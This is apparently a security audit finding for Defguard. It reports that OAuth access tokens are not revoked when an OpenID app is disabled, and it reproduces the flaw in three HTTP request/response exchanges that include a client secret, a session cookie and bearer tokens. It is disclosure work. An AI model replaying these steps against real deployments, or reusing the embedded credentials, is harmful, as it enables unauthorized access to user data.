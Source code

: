 ```yaml
---
title: "DG25-25: Access token is not being revoked when OpenID app becomes disabled"
severity: Low
cvss_score: 4.3
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1554
status: Completed
---
```


### Technical details

1.  User authorizes to the OpenID app:

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 165\
**Content-Type:** application/x-www-form-urlencoded\
\
grant_type=authorization_code&redirect_uri=`https://isec.pl&code=rheXiUUlXW34MwoOS7PWxlLV&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:23:05 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\


```json
{ 
"access_token ": "Dyg8SocRFYixyEI2qMZRBMpi ", 
"id_token ":null, 
"refresh_token ": "NL12wUK2mzs5mz0u1V3WLPmE ", 
"token_type ": "bearer "
}
```

1.  Administrator disables the app:

**Request:**\
\
**POST** /api/v1/oauth/9szvHNlxY6R3jvbX HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=KENMUulcmfVkD0W8MZjN4Rjw\
**Content-Length:** 17\
**Content-Type:** application/json\
**Sec-Ch-Ua-Mobile:** ?0\
**User-Agent:** Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36\
\
{\"enabled\":false}\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:23:56 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 2\
\
{}

1.  access_token is not being revoked - user can still use it.

**Request:**\
\
**GET** /api/v1/oauth/userinfo HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer Dyg8SocRFYixyEI2qMZRBMpi\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:25:54 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 156\


```json
{ 
"email ": "phtest2+fdsfsdfsdfdsfds@isec.pl ", 
"family_name ": "A ", 
"given_name ": "A ",
"name ": "AA ", 
"phone_number ": "123123 ",
"preferred_username ": "user ", 
"sub ": "user "
}
```